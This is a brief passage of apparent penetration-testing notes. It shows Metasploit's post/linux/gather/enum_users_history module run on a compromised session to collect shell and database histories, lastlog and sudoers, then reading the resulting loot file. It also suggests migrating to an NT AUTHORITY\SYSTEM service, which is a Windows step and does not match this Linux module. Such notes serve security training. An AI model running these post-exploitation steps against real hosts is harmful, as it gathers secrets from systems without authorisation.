 * Enumerate **users history**

```bash
search enum_users_history
use post/linux/gather/enum_users_history
# Description:
#   This module gathers the following user-specific information: shell 
#   history, MySQL history, PostgreSQL history, MongoDB history, Vim 
#   history, lastlog, and sudoers.
set SESSION 2
run

# If this doesn't work, migrate to a "NT AUTHORITY\SYSTEM" user service
```

<figure><img src="../../../../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
loot

# Check shells
cat /root/.msf4/loot/20230422110345_Linux_PostExp_192.215.55.3_linux.enum.users_227379.txt
```

<figure><img src="../../../../../.gitbook/assets/image (16) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
